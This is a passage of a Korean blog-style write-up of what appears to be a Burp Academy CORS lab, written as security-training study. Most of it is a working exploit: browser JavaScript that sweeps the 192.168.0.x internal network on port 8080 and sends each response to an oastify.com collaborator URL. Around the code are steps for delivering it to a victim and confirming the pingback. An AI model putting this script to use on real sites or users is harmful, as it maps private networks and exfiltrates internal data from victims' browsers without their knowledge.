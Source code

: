 ```js
                
            })
        }
        </script>
</html>
```

원인을 알았다. 내 코드에는 결과 응답을 encodeURIComponent 함수로 래핑해주는 부분이 없어서 생긴 문제같다. 아마도 공백 문자 처리같은 부분때문에 문제가 생겼으리라. 다음과 같이 수정하니 제대로 동작했다. exploit서버에서 저장하고 deliver to victim 을 누른다. 그러면 몇 초후에 Burp Suite의 collaborator탭에 핑백(pingback) 결과나 나타난다.

```js
<html>
<script>
collaboratorURL = "https://jczuv0mhp9to3cgtcd767eb9208rwlka.oastify.com"
for (let i=1; i < 256; i++){
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','http://192.168.0.'+ i + ':8080'); 
   req.send();

   function reqListener() {
      var req2 = new XMLHttpRequest();
       req2.open('get',collaboratorURL + '/' + i + '?key='+encodeURIComponent(this.responseText)); 
       req2.send();
   };
}
</script>
</html>
```

![핑백결과](/images/burp-academy-cors-4-1.png)
